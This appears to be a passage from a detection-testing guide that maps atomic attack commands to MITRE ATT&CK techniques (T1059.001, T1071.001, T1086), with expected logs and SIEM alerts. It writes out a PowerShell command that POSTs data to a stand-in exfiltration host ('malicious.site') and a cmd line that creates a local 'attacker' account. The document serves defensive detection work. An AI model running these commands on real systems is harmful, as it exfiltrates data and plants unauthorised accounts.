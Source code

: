 ### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1059.001**

## ✅ T1071.001 – HTTP Communication

### Description
Use PowerShell to send HTTP POST data for exfiltration.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
Invoke-WebRequest -Uri "http://malicious.site/exfil" -Method POST -Body "Sensitive Data"
```

### Tool Used
PowerShell

### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1071.001**

## ✅ T1086 – Command-Line Interface

### Description
Execute commands to enumerate user or create new accounts.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
cmd.exe /c whoami & net user attacker P@ssw0rd! /add
```

### Tool Used
CMD
